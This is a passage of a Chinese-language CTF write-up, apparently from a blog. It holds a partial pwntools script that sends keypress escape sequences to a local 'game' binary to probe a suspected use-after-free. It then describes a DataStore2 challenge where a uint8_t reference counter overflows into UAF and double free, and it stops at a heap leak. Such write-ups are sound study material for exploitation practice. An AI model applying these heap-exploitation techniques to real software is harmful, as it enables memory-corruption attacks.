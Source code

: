```py
from pwn import*
import struct
context(os='linux',arch='amd64',log_level='debug')

# put_bomb 的时候 player->bomb() 被 move 到 Stage 的 _bomb，然后在图上标记出来
# pickup_bomb 的时候会 move Stage 的 _bomb 到 player->bomb()
# 在 create_fire 的时候没有 release _bomb 所以可能有一个 uaf 想一下怎么用吧
# set bomb 的原理是在 bomb 的上下左右分别去 burn 遇到 block 的话就烧掉
# timer: 每次 tick 会 timer ++ ; tick 和时钟同频  
# 每一轮先 tick 再 draw  

# 这个 timer 是通过一次 send 一堆来控制的！而非控制 sleep 的时间
p = process("./game")
# gdb.attach(p,'''
#            b *$rebase(0x361a)
#            b* $rebase(0x3699)
#            b* $rebase(0x3936)
#            b* $rebase(0x37e0)
#            b* $rebase(0x3f81)
#            ''')
# pause()
sleep(1)
# TODO 问这些是咋得到的
left_chr = "\x1bOD"
right_chr = "\x1bOC"
up_chr = "\x1bOA"
down_chr = "\x1bOB"

payload = right_chr + " " + left_chr + "a"*24 + right_chr + " "  # put bomb at (5,0) 现在在 (2,1)  
payload += " "+ "a"*30 +right_chr*3 + up_chr*4 + right_chr*2 # 从 (5,-1) 破墙 (7,-3)
sleep(0.1)
p.send(payload)
p.interactive()

```   

## DataStore2
卡了两次，一次是在 leak libc 的时候只想到了 double free， 还有一次是在最后堆重叠写 fd 的时候没想明白（     
### 漏洞
```c
typedef struct String {
	uint8_t ref;
	size_t size;
	char *content;
} str_t;
```
初赛有一个 Datastore1 的题，和那个题的源码 diff 了一下，发现这个 ref 显然可以溢出，从而可以 UAF 和 double free      

### leak
#### leak heap
直接用一个 UAF read 得到
